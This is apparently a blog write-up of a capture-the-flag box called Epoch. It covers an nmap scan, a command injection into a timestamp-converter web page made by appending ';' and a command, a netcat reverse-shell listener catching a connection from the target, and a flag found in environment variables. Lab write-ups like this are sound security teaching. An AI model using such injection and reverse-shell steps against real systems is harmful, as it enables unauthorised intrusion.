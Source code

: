 ```yaml
---
layout: post
author: L0
---
```


![image](/images/Pasted image 20221114224437.png)

## Enumeration

### nmap

```shell
$ nmap -sV -p- epoch.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 16:48 EST
Nmap scan report for epoch.thm (10.10.64.230)
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data.
```

open ports
- `22` ssh service
- `80` unrecognized service

### website


![image](/images/Pasted image 20221114225256.png)

websites coverts unix epoch timestamp (seconds since 01.01.1970 0:00:00) to UTC time.

![image](/images/Pasted image 20221114225706.png)

it is very easy to exploit. just put a `;` after the number and type your own command. next i will launch a reverse shell to get access to the machine.

### reverse shell

![image](/images/Pasted image 20221114230143.png)

this is the command i used to execute the shell.

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.64.230] 36932
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ id
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
challenge@e7c1352e71ec:~$
```

and here i got access to the system.

after checking out all files in the home directory testing for common privileges escalation vectors i found something in the environment variables.

```shell
challenge@e7c1352e71ec:/home$ env
env
HOSTNAME=e7c1352e71ec
PWD=/home
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da***************************47}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/
```

flag found and box done.

[L0]
